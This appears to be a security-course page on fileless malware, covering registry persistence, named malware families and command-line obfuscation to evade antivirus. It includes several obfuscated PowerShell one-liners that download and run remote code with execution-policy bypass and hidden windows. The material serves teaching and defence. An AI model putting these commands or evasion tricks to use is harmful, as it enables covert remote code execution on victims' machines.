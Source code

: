 ### Maintaining Persistence with Fileless Techniques

* When compared to other malware types, fileless malware does not use disk files to spread its infection or maintain persistence.
* Attackers adopt unique methods such as developing load points to restart infected payloads to maintain persistence.
* Attackers save the malicious payload inside the registry that holds data for configurations, application files, and settings, which executes itself with every system restart.

### Fileless Malware

* Divergent
* Astaroth Backdoor &#x20;
* Nodersok &#x20;
* Vaporworm &#x20;
* njRat Backdoor &#x20;
* Sodinokibi Ransomware &#x20;
* Kovter and Poweliks &#x20;
* Dridex &#x20;
* Hancitor/Chanitor &#x20;
* Sorebrect Ransomware

### Fileless Malware Obfuscation Techniques to Bypass Antivirus

**Inserting Characters**: Attackers insert special characters such as comma(,) and semicolon (;) between malicious commands and strings to make well-known commands more complex to detect.

```
,;cmd.exe,/c,;,echo;powershell.exe -NoExit -exec bypass -nop Invoke-Expression(New-Object System.Net.WebClient).DownloadString(‘https://targetwebsite.com”)&&echo,exit
```

**Inserting Parentheses**: When parentheses are used, variables in a code block are evaluated as a single line command. Attackers exploit this feature to split and obfuscate malicious commands.

```
cmd.exe /c ((echo command1) 
&&( 
echo command2))
```

**Inserting Caret Symbol**: The caret symbol (^) is a reserved character used in shell commands for escaping. Attackers exploit this feature to escape malicious commands during execution time.

```
C:\WINDOWS\system32\cmd.exe /c p^^o^^w^^e^^r^^s^^h^^e^^l^^l^^.^^e^^x^^e -No^^Exit -exec bypass -nop Invoke-Expression (New-Object System.Net.WebClient). DownloadString((‘https://targetwebsite.com”)&&echo,exit
```

**Inserting Double Quotes**: The command line parser uses the double quote symbol as an argument delimiter. Attackers use this symbol to concatenate malicious commands in arguments.

```
Pow””er””Shell -N””oExit -ExecutionPolicy bypass -noprofile -windowstyle hidden cmd /c Flower.jpg
```
